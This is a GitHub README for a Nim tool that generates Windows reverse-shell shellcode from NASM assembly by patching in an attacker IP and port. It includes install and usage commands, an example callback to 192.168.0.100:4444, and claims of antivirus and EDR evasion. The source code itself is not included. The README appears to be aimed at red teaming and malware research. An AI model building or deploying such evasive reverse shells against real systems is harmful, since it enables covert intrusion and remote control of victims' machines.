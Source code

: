 # 💀 ShellcodeGenerator

> A powerful Linux-based utility to generate customized Windows reverse shellcode directly from inline x86 NASM assembly.

![ShellcodeGenerator Banner](https://img.shields.io/badge/NASM-Shellcode-orange?style=flat-square&logo=nasm)
![Platform](https://img.shields.io/badge/Platform-Windows-blue?style=flat-square&logo=windows)
![Language](https://img.shields.io/badge/Language-Nim-yellow?style=flat-square&logo=nim)
![License](https://img.shields.io/badge/License-MIT-green?style=flat-square)

---

## 🚀 About

**ShellcodeGenerator** is a custom tool written in **Nim** that dynamically patches IP and port values into hand-crafted x86 assembly shellcode (NASM syntax) for **Windows reverse shells**.

It compiles and links the shellcode into a PE binary (`.exe`) and extracts printable shellcode bytes suitable for exploitation tasks, malware research, or CTFs.

---

## 📦 Features

✅ Patch any IP address and port into shellcode  
✅ Fully x86 NASM compatible  
✅ Generates raw shellcode from compiled `.exe`  
✅ Written in Nim for speed and flexibility  
✅ Linux-only for ethical red teaming and malware research  
✅ Highlights correct little-endian formatting for network values

---

## ✅ Advantages

- 🔓 **Non-Signature Shellcode**  
  The generated shellcode does **not rely on common payload templates**, making it **unique on every run**. This effectively defeats most static signature-based detection techniques.

- 🛡️ **Bypasses Antivirus (AV) Engines**  
  Due to its polymorphic nature and absence of known patterns, this shellcode can evade many modern **AV and EDR solutions**, making it ideal for red team operations and stealthy post-exploitation.

- 🧬 **No External Dependencies**  
  Fully self-contained: no Metasploit, no PowerShell, no external loaders—pure, raw shellcode.

- 🎯 **Precision Targeting**  
  Configurable target IP and port are directly embedded in little-endian format at compile time, reducing runtime footprint.

---

## 🧪 Requirements

- Linux OS (any distro)
- [`nasm`](https://www.nasm.us/) — Netwide Assembler
- [`ld`](https://linux.die.net/man/1/ld) — GNU linker
- Nim Compiler (`nim`)

---

## ⚙️ Installation

Install Nim:
```bash
sudo apt install nim
```

Install Nasm and LD 
```bash
sudo apt install nasm binutils
```

Clone The Repository
```bash
git clone https://github.com/Raulisr00t/ShellcodeGenerator.git
cd ShellcodeGenerator
```

## 🛠️ Usage
```bash
nim c -d:release generator.nim
./generator <IP> <PORT>
```

Example
```bash
./generator 192.168.0.100 4444
```

Output:
```bash
[*] Replacing IP with: 0x6400a8c0
[*] Replacing PORT with: 0x5c11
[+] Written modified assembly to root.nasm
[+] Assemble root.nasm
[+] Linking
[+] Done !
Printing Shellcode
"\x31\xc9\x89\x00\x00\x00..."
```

## 📂 File Structure
```bash
.
├── generator.nim      # Main tool logic
├── root.nasm          # Modified NASM shellcode (auto-generated)
├── reverse.exe        # Compiled shellcode payload (auto-generated)
└── README.md          # Documentation
```

## 🧠 How It Works
Assembly Template: Inline NASM with placeholders for IP and port
Patch Engine: Replaces relevant lines using regex with correct little-endian values
Shellcode Extraction: Uses objdump and shell pipelines to extract clean, printable shellcode

## 🔐 Disclaimer
This tool is intended for educational purposes, malware research, and red teaming only.
You are solely responsible for how you use this code.
Do not deploy against systems you do not own or have explicit permission to test.

## ✨ Author
Developed by Raul
Drop a ⭐ if this helped you — and hack responsibly!

